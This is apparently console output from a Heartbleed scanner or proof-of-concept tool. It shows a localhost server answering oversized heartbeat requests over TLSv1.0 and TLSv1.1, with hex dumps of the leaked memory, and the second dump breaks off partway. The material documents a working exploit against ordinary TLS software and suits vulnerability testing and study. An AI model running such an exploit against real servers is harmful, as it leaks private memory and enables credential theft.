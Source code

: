 ```

[-] Connecting to 127.0.0.1:443 using TLSv1.0
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.0
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 01 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
  01f0: 48 C0 49 C0 4A C0 4B C0 4C C0 4D C0 4E C0 4F C0  H.I.J.K.L.M.N.O.
  0200: 50 C0 51 C0 52 C0 53 C0 54 C0 55 C0 56 C0 57 C0  P.Q.R.S.T.U.V.W.
  0210: 58 C0 59 C0 5A C0 5B C0 5C C0 5D C0 5E C0 5F C0  X.Y.Z.[.\.].^._.
  0220: 60 C0 61 C0 62 C0 63 C0 64 C0 65 C0 66 C0 67 C0  `.a.b.c.d.e.f.g.
  0230: 68 C0 69 C0 6A C0 6B C0 6C C0 6D C0 6E C0 6F C0  h.i.j.k.l.m.n.o.
  0240: 70 C0 71 C0 72 C0 73 C0 74 C0 75 C0 76 C0 77 C0  p.q.r.s.t.u.v.w.
  0250: 78 C0 79 C0 7A C0 7B C0 7C C0 7D C0 7E C0 7F C0  x.y.z.{.|.}.~...
  02c0: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  02d0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  0300: 10 00 11 00 23 00 00 00 0F 00 01 01 00 00 00 00  ....#...........
  0bd0: 00 00 00 00 00 00 00 00 00 12 7D 01 00 10 00 02  ..........}.....

[-] Closing connection

[-] Connecting to 127.0.0.1:443 using TLSv1.1
[-] Sending ClientHello
[-] ServerHello received
[-] Sending Heartbeat
[Vulnerable] Heartbeat response was 16384 bytes instead of 3! 127.0.0.1:443 is vulnerable over TLSv1.1
[-] Displaying response (lines consisting entirely of null bytes are removed):

  0000: 02 FF FF 08 03 02 53 48 73 F0 7C CA C1 D9 02 04  ......SHs.|.....
  0010: F2 1D 2D 49 F5 12 BF 40 1B 94 D9 93 E4 C4 F4 F0  ..-I...@........
  0020: D0 42 CD 44 A2 59 00 02 96 00 00 00 01 00 02 00  .B.D.Y..........
  0060: 1B 00 1C 00 1D 00 1E 00 1F 00 20 00 21 00 22 00  .......... .!.".
  0070: 23 00 24 00 25 00 26 00 27 00 28 00 29 00 2A 00  #.$.%.&.'.(.).*.
  0080: 2B 00 2C 00 2D 00 2E 00 2F 00 30 00 31 00 32 00  +.,.-.../.0.1.2.
  0090: 33 00 34 00 35 00 36 00 37 00 38 00 39 00 3A 00  3.4.5.6.7.8.9.:.
  00a0: 3B 00 3C 00 3D 00 3E 00 3F 00 40 00 41 00 42 00  ;.<.=.>.?.@.A.B.
  00b0: 43 00 44 00 45 00 46 00 60 00 61 00 62 00 63 00  C.D.E.F.`.a.b.c.
  00c0: 64 00 65 00 66 00 67 00 68 00 69 00 6A 00 6B 00  d.e.f.g.h.i.j.k.
  00d0: 6C 00 6D 00 80 00 81 00 82 00 83 00 84 00 85 00  l.m.............
  01a0: 20 C0 21 C0 22 C0 23 C0 24 C0 25 C0 26 C0 27 C0   .!.".#.$.%.&.'.
  01b0: 28 C0 29 C0 2A C0 2B C0 2C C0 2D C0 2E C0 2F C0  (.).*.+.,.-.../.
  01c0: 30 C0 31 C0 32 C0 33 C0 34 C0 35 C0 36 C0 37 C0  0.1.2.3.4.5.6.7.
  01d0: 38 C0 39 C0 3A C0 3B C0 3C C0 3D C0 3E C0 3F C0  8.9.:.;.<.=.>.?.
  01e0: 40 C0 41 C0 42 C0 43 C0 44 C0 45 C0 46 C0 47 C0  @.A.B.C.D.E.F.G.
```